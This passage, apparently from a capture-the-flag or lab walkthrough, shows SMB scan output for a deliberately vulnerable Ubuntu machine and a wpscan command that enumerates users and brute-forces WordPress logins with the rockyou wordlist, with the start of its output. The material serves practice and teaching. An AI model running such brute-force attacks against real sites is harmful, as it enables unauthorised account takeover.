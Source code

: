     |   FQDN: ubuntu-extermely-vulnerable-m4ch1ine
    |_  System time: 2021-04-07T05:55:26-04:00
    | smb-security-mode: 
    |   account_used: guest
    |   authentication_level: user
    |   challenge_response: supported
    |_  message_signing: disabled (dangerous, but default)
    | smb2-security-mode: 
    |   2.02: 
    |_    Message signing enabled but not required
    | smb2-time: 
    |   date: 2021-04-07T09:55:26
    |_  start_date: N/A


## Scan and brute force wordpress with wpscan

    └─$ wpscan --url http://10.0.1.49/wordpress/ -e u -P /usr/share/wordlists/rockyou.txt 
    _______________________________________________________________
            __          _______   _____
            \ \        / /  __ \ / ____|
             \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
              \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
               \  /\  /  | |     ____) | (__| (_| | | | |
                \/  \/   |_|    |_____/ \___|\__,_|_| |_|

            WordPress Security Scanner by the WPScan Team
                            Version 3.8.15
          Sponsored by Automattic - https://automattic.com/
          @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
    _______________________________________________________________

    [i] It seems like you have not updated the database for some time.
    [?] Do you want to update now? [Y]es [N]o, default: [N]n
    [+] URL: http://10.0.1.49/wordpress/ [10.0.1.49]
    [+] Started: Wed Apr  7 21:52:38 2021

    Interesting Finding(s):

    [+] Headers
    | Interesting Entry: Server: Apache/2.4.18 (Ubuntu)
    | Found By: Headers (Passive Detection)
    | Confidence: 100%
